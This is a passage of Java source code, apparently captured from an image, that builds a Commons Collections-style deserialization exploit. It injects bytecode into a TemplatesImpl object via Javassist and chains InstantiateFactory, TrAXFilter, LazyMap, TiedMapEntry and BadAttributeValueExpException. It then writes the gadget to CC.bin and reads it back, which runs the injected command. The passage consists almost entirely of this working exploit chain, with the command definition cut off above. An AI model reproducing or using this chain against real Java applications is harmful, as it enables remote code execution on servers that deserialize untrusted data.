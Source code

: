 ```
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] bytes = STU.toBytecode();
        byte[][] targetbytes = new byte[][]{bytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFiledValue(templates,"_bytecodes",targetbytes);
        setFiledValue(templates,"_name","DawnT0wn");
        setFiledValue(templates,"_class",null);

        InstantiateFactory instantiateFactory = new InstantiateFactory(TrAXFilter.class,new Class[]{Templates.class},new Object[]{templates});
        FactoryTransformer factoryTransformer = new FactoryTransformer(instantiateFactory);

        Map innermap = new HashMap();
        LazyMap outmap = (LazyMap) LazyMap.decorate(innermap,factoryTransformer);

        TiedMapEntry tiedmap = new TiedMapEntry(outmap,"town");
        BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,tiedmap);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CC.bin"));
        os.writeObject(poc);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CC.bin"));
        fos.readObject();

    }

    public static void setFiledValue(Object obj,String Filename,Object value) throws Exception
    {
        Field field = obj.getClass().getDeclaredField(Filename);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```
